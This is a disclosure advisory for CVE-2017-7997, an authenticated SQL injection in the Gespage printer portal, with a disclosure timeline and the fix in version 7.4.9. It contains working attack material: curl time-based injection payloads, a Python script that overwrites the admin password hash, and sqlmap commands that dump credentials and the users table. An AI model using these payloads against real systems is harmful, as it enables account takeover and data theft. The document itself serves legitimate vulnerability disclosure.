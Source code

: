 # [CVE-2017-7997] Gespage SQL Injection vulnerability

## Description

Gespage is a web solution providing a printer portal. Official Website: http://www.gespage.com/

The web application does not properly filter several parameters sent by users, allowing authenticated SQL code injection (Stacked Queries - comment).

These vulnerabilities could allow attackers to retrieve / update data from the database through the application.

**CVE ID**: CVE-2017-7997

**Access Vector**: remote

**Security Risk**: high

**Vulnerability**: CWE-89

**CVSS Base Score**: 8.6

**CVSS Vector String**: CVSS:3.0/AV:N/AC:L/PR:N/UI:N/S:C/C:H/I:N/A:N


### Proof of Concept (dumping database data)

The parameters of these following pages are vulnerable:

* Page: http://URL/ges/webapp/users/prnow.jsp
  Parameter: show_prn
  HTTP Method: Post

* Page: http://URL/ges/webapp/users/blhistory.jsp
  Parameter: show_month
  HTTP Method: Post

* Page: http://URL/ges/webapp/users/prhistory.jsp
  Parameter: show_month
  HTTP Method: Post

We can then detect the SQL Injection by requesting the server with the curl tool, including a simple payload executing a sleep of different seconds:

* Normal request:

```
curl --cookie "JSESSIONID=YOUR_COOKIE_HERE" -X POST -d "show_prn=1" https://172.16.217.134:7181/gespage/webapp/users/prnow.jsp --insecure -w "\nResponse Time:%{time_total}\n"

Curl output: Response Time:0,122
```

* Sleep Injection of 3 seconds into the request:

```
curl --cookie "JSESSIONID=YOUR_COOKIE_HERE" -X POST -d "show_prn=1');SELECT PG_SLEEP(3)--" https://172.16.217.134:7181/gespage/webapp/users/prnow.jsp --insecure -w "\nResponse Time:%{time_total}\n"

Curl output: Response Time: 3,126
```

* Sleep Injection of 6 seconds into the request:

```
curl --cookie "JSESSIONID=YOUR_COOKIE_HERE" -X POST -d "show_prn=1');SELECT PG_SLEEP(6)--" https://172.16.217.134:7181/gespage/webapp/users/prnow.jsp --insecure -w "\nResponse Time:%{time_total}\n"

Curl output: Response Time: 6,126
```

We created a dedicated python script to change the web admin password in order to compromise the web application:

```
#!/usr/bin/env python
# -*- coding: utf-8 -*-

"""
$ python update_gespage_pwd.py -c e06d40bc855c98751a5a2ff49daa -i http://192.168.160.128:7180/gespage -p 12345
[+] Generating the new admin password hash
    => Password hash (sha1) to inject in the Database: 8cb2237d0679ca88db6464eac60da96345513964
[+] Verifying connection to the web interface: http://192.168.160.128:7180/gespage/
    => Connection OK
[+] Exploiting the SQL injection
    => Vulnerable page: http://192.168.160.128:7180/gespage/webapp/users/prnow.jsp
    => Posting Data   : show_prn=A-PRINTER-ON-THE-WEB-LIST');UPDATE param_gespage SET param_value='8cb2237d0679ca88db6464eac60da96345513964' WHERE param_id='admin_pwd'--
[+] Go to the web admin interface, http://192.168.160.128:7180/admin/ and log on with admin:12345
"""

from argparse import ArgumentParser
from hashlib import sha1
from requests import Session
from urllib3 import disable_warnings


def exploit(args):
    if args.ip_url[-1] != "/":
        args.ip_url += "/"
    print "[+] Generating the new admin password hash"
    new_admin_pwd_hash = sha1(args.password).hexdigest()
    print "    => Password hash (sha1) to inject in the Database: %s" % (new_admin_pwd_hash)
    print "[+] Verifying connection to the web interface: %s" % (args.ip_url)
    web_session = web_connection(args.ip_url, args.cookie)
    print "[+] Exploiting the SQL injection"
    sql_injection(args.ip_url, web_session, args.cookie, new_admin_pwd_hash)
    print "[+] Go to the web admin interface, %s and log on with admin:%s" % (args.ip_url.replace('gespage', 'admin'), args.password)


def sql_injection(url, session, user_cookie, new_admin_pwd_hash):
    vulnerable_url = url + "webapp/users/prnow.jsp"
    sql_update_query = "UPDATE param_gespage SET param_value='%s' WHERE param_id='admin_pwd'" % (new_admin_pwd_hash)
    sql_injection_payload = "A-PRINTER-ON-THE-WEB-LIST');%s--" % (sql_update_query)
    print "    => Vulnerable page: %s" % (vulnerable_url)
    print "    => Posting Data   : show_prn=%s" %(sql_injection_payload)
    response = session.post(vulnerable_url, cookies={"JSESSIONID":user_cookie}, verify=False, allow_redirects=True, data={"show_prn":sql_injection_payload})
    if not response.status_code == 200:
        print "   There is an error while posting the payload, try with sqlmap.py"
        exit(2)


def web_connection(url, user_cookie):
    disable_warnings()
    session = Session()
    response = session.get(url, verify=False, allow_redirects=False, cookies={"JSESSIONID":user_cookie})
    if (response.status_code == 302 and "webapp/user_main.xhtml" in response.text):
        print "    => Connection OK"
        return session
    else:
        print "    /!\ Error while connecting the web interface with the specified JSESSIONID cookie"
        print "        => Make sure given application URL and JSESSIONID cookie are correct "
        exit(1)


if __name__ == '__main__':
    parser = ArgumentParser(description='Exploit Gespage SQL injection by updating the admin password. You must create then specify an existing user in order to exploit the vulnerability')
    parser.add_argument('-i','--ip_url', help='The web interface URL, ex: http://IP_ADDRESS:7181/gespage/',required=True)
    parser.add_argument('-c','--cookie', help='JSESSIONID cookie of an authenticated user',required=True)
    parser.add_argument('-p','--password', help='New admin password',required=True)
    exploit(parser.parse_args())

```

Using [sqlmap](https://github.com/sqlmapproject/sqlmap), it is also possible to dump the content of the database, write other data, etc.

Dumping the admin password hash (if changed from the initial 123456 password):

```
python sqlmap.py -u "https://URL:7181/gespage/users/prnow.jsp" --cookie="JSESSIONID=YOUR_COOKIE_HERE" --data="show_prn=A-PRINTER-ON-THE-WEB-LIST" --dbms=PostgreSQL --risk 3 --level 5 --technique TS -D public -T param_gespage -C param_value --time-sec 2 --dump --flush-session
```

Dumping the users table:

```
sqlmap.py -u "https://URL:7181/gespage/users/prnow.jsp" --cookie="JSESSIONID=YOU_COOKIE_HERE" --data="show_prn=A-PRINTER-ON-THE-WEB-LIST" --dbms=PostgreSQL --risk 3 --level 5 --technique TS -D public -T users --time-sec 2 --dump
```


## Timeline (dd/mm/yyyy)

* 06/03/2017 : Initial discovery
* 13/03/2017 : First contact attempt (Web form)
* 21/04/2017 : Second contact attempt (public e-mail address)
* 23/06/2017 : Phone call and successful e-mail contact
* 23/06/2017 : Technical details sent to the editor
* 20/07/2017 : No reply, follow-up e-mail
* 27/07/2017 : Reply: fix planned for major release 7.5.0 in late September
* 17/09/2017 : Informing the editor that we would publish in October
* 3/10/2017 : Feedback from Gespage informing us that the issue has been fixed with version 7.4.9.
* 02/01/2018 : Release of the advisory

## Fixes

Upgrade to Gespage 7.4.9

## Affected versions

* Versions up to 7.4.8

## Credits

* Mickael Karatekin, TNP Consultants (mickael.karatekin -a-t- -tnpconsultants -dot- -com)
